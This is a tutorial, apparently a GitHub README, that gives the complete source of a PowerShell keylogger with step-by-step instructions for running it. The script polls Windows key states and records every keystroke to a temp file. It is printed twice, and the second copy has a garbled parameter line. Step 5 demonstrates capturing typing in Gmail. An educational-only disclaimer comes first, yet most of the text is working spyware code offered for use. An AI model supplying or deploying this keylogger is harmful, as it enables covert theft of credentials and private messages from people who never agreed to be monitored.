



## Warning

> **Warning: Educational Purposes Only**
> **This keylogger application is provided strictly for educational purposes. It is intended to be used as a learning tool to understand the behavior of keyloggers and enhance your knowledge of computer security.**

> **DO NOT Use it for Hacking**
> **Under no circumstances should this keylogger application be used for hacking, gaining unauthorized access to someone's computer, or engaging in any illegal activities.**

> **Use at Your Own Risk**
> **By choosing to use this keylogger application, you acknowledge and accept all associated risks. The developer and any contributors to this application are not responsible for any damages, losses, or legal consequences resulting from the use or misuse of this software.**

## Procedure

**Step1**

Spread out the Start menu. Type in Windows PowerShell in the search bar. From the search results, open the applications Windows PowerShell and Windows PowerShell ISE as shown in the screenshot.

**STEP 2**

Click on Windows PowerShell icon in the task bar. This will result in the popping up of Windows PowerShell command prompt.

**STEP 3**

Copy the code given below and paste it onto the Windows PowerShell command prompt. To copy or paste, you just need to select the code and right click, in the PowerShell command prompt. #requires -Version 2

	function Start-KeyLogger($Path="$env:temp\keylogger.txt")
	{
	# Signatures for API Calls
	$signatures = @'
	[DllImport("user32.dll", CharSet=CharSet.Auto, ExactSpelling=true)]
	public static extern short GetAsyncKeyState(int virtualKeyCode);
	[DllImport("user32.dll", CharSet=CharSet.Auto)]
	public static extern int GetKeyboardState(byte[] keystate);
	[DllImport("user32.dll", CharSet=CharSet.Auto)]
	public static extern int MapVirtualKey(uint uCode, int uMapType);
	[DllImport("user32.dll", CharSet=CharSet.Auto)]
	public static extern int ToUnicode(uint wVirtKey, uint wScanCode, byte[] lpkeystate, System.Text.StringBuilder pwszBuff,
	int cchBuff, uint wFlags);
	'@

	# load signatures and make members available
	$API = Add-Type -MemberDefinition $signatures -Name 'Win32' -Namespace API -PassThru

	# create output file
	$null = New-Item -Path $Path -ItemType File -Force

	try
	{
	Write-Host 'Recording key presses. Press CTRL+C to see results.' -ForegroundColor Red

	# create endless loop. When user presses CTRL+C, finally-block
	# executes and shows the collected key presses
	while ($true) {
	Start-Sleep -Milliseconds 40

	# scan all ASCII codes above 8
	for ($ascii = 9; $ascii -le 254; $ascii++) {
	# get current key state
	$state = $API::GetAsyncKeyState($ascii)

	# is key pressed?
	if ($state -eq -32767) {
	$null = [console]::CapsLock

	# translate scan code to real code
	$virtualKey = $API::MapVirtualKey($ascii, 3)

	# get keyboard state for virtual keys
	$kbstate = New-Object Byte[] 256
	$checkkbstate = $API::GetKeyboardState($kbstate)

	# prepare a StringBuilder to receive input key
	$mychar = New-Object -TypeName System.Text.StringBuilder

	# translate virtual key
	$success = $API::ToUnicode($ascii, $virtualKey, $kbstate, $mychar, $mychar.Capacity, 0)

	if ($success)
	{
	# add key to logger file
	[System.IO.File]::AppendAllText($Path, $mychar, [System.Text.Encoding]::Unicode)
	}
	}
	}
	}
	}
	finally
	{
	# open logger file in Notepad
	notepad $Path
	}
	}

	# records all key presses until script is aborted by pressing CTRL+C
	# will then open the file with collected key codes
	Start-KeyLogger
or
	  #requires -Version 2
		function Start-KeyLogger(Path="Path="env:temp\keylogger.txt")
		{
		  # Signatures for API Calls
		  $signatures = @'
		[DllImport("user32.dll", CharSet=CharSet.Auto, ExactSpelling=true)]
		public static extern short GetAsyncKeyState(int virtualKeyCode);
		[DllImport("user32.dll", CharSet=CharSet.Auto)]
		public static extern int GetKeyboardState(byte[] keystate);
		[DllImport("user32.dll", CharSet=CharSet.Auto)]
		public static extern int MapVirtualKey(uint uCode, int uMapType);
		[DllImport("user32.dll", CharSet=CharSet.Auto)]
		public static extern int ToUnicode(uint wVirtKey, uint wScanCode, byte[] lpkeystate, System.Text.StringBuilder pwszBuff, int cchBuff, uint wFlags);
		'@

	  # load signatures and make members available
	  $API = Add-Type -MemberDefinition $signatures -Name 'Win32' -Namespace API -PassThru

	  # create output file
	  $null = New-Item -Path $Path -ItemType File -Force

	  try
	  {
		Write-Host 'Recording key presses. Press CTRL+C to see results.' -ForegroundColor Red

		# create endless loop. When user presses CTRL+C, finally-block
		# executes and shows the collected key presses
		while ($true) {
		  Start-Sleep -Milliseconds 40

		  # scan all ASCII codes above 8
		  for ($ascii = 9; $ascii -le 254; $ascii++) {
	    	# get current key state
	    	$state = $API::GetAsyncKeyState($ascii)

	    	# is key pressed?
	    	if ($state -eq -32767) {
	    	  $null = [console]::CapsLock

	    	  # translate scan code to real code
	    	  $virtualKey = $API::MapVirtualKey($ascii, 3)

	    	  # get keyboard state for virtual keys
	    	  $kbstate = New-Object Byte[] 256
	    	  $checkkbstate = $API::GetKeyboardState($kbstate)

	    	  # prepare a StringBuilder to receive input key
	    	  $mychar = New-Object -TypeName System.Text.StringBuilder

	    	  # translate virtual key
	    	  $success = $API::ToUnicode($ascii, $virtualKey, $kbstate, $mychar, $mychar.Capacity, 0)

	    	  if ($success)
	    	  {
	        	# add key to logger file
	        	[System.IO.File]::AppendAllText($Path, $mychar, [System.Text.Encoding]::Unicode)
	    	  }
	    	}
		  }
		}
	  }
	  finally
	  {
		# open logger file in Notepad
		notepad $Path
	  }
	}

	# records all key presses until script is aborted by pressing CTRL+C
	# will then open the file with collected key codes
	Start-KeyLogger

**STEP 4**

Now the Windows PowerShell will look like the following screenshot.

**STEP 5**

Now open some application and press some keys. I have opened G-Mail as an example.

**STEP 6**

Once you are done with pressing keys, look at the bottom of the code in the Windows PowerShell command prompt. There you will see an instruction Recording key presses. Press CTRL+C to see results. Press CTRL+C as per the instruction to see the logged keystrokes.

**STEP 7**

Pressing CTRL+C will result in the opening of a notepad file, which has the recorded keystrokes.

**STEP 8**

Alternatively, you can open the Windows PowerShell ISE as shown in the first step and copy the code. As next, click on the Play icon to run the script. This will also give the same result.

That’s it. Creating your own keylogger is not a walk through the ocean anymore. Hope the article was found useful.

## Reference

[ - How to stop windows 10 key logger program ](# "https://thegeekpage.com/create-simple-keylogger-windows/")
[- How to create a simple key logger yourself in windows](https://thegeekpage.com/how-to-disable-windows-10-keylogger-program/)
